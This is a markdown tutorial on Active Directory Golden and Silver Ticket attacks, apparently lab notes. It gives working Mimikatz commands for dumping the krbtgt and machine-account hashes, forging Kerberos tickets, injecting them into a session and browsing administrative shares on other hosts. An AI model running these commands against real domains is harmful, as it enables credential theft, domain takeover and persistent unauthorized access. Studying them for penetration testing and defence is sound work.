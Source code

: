 In the context of Windows Active Directory (AD) attacks, Golden Tickets and Silver Tickets are two powerful attack techniques that leverage Kerberos authentication to gain unauthorized access and maintain persistence in a domain.
Golden Tickets

> What is a Golden Ticket?

A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to impersonate any user, including domain administrators, in the AD environment. This ticket is generated using the Kerberos service account's password hash of **krbtgt** account.

> How it Works?

The krbtgt account is a special account in AD that is responsible for encrypting all TGTs. If an attacker compromises a domain controller or otherwise gains access to the krbtgt account hash, they can create a Golden Ticket. With this ticket, the attacker can **request access to any service within the domain**, essentially having unrestricted access.<br>
To perform this attack we need the following:

1- The krbtgt account hash.
```
lsadump::lsa /patch
```
2- The domain name.
```
Get-ADDomain
```
3- the domain SID.
```
(Get-ADDomain).DomainSID
```
Now that we have all the required information, we can relaunch Mimikatz:
```
mimikatz # kerberos::golden /admin:AnyName /domain:<DomainName> /id:500 /sid:<DomainSID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```
> /admin - The username we want to impersonate. This does not have to be a valid user.<br>
> /domain - The FQDN of the domain we want to generate the ticket for.<br>
> /id -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.<br>
> /sid -The SID of the domain we want to generate the ticket for.<br>
> /krbtgt -The NTLM hash of the KRBTGT account.<br>
> /endin - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)<br>
> /renewmax -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)<br>
> /ptt - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.<br>

Even if the golden ticket has an incredibly long time, the blue team can still defend against this by simply rotating the KRBTGT password twice.<br>

**Silver Tickets**

> What is a Silver Ticket?

A Silver Ticket is a forged Kerberos Ticket Granting Service (TGS) ticket that allows an attacker to **access a specific service** or resource on a server without needing to interact with the domain controller.

> How it Works:

Silver Tickets are created using the password hash of a service account (such as HTTP, CIFS, etc.). The attacker forges a service ticket that grants them access to the specific service tied to that account. This ticket is then presented directly to the service, bypassing the need to go through the domain controller.

```
mimikatz # kerberos::golden /admin:AnyName /domain:<DomainName> /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```
WE can get the server hostname and the NTML hash of the machine account of the target using **mimikatz**:
```
lsadump::lsa /patch
```
> The $ indicates that it is a machine account.

We can verify that the silver ticket is working by running the dir command against the target machine (ex: THMserver1):
```
dir \\THMserver1.<DomainName>\c$\
```


**Use the Golden Ticket to access other machine**


This will open a new command prompt with elevated privileges to all machines:
```
misc::cmd
```
You will now have another command prompt with access to all other machines on the network:

```
dir \\desktop-1\c$
```



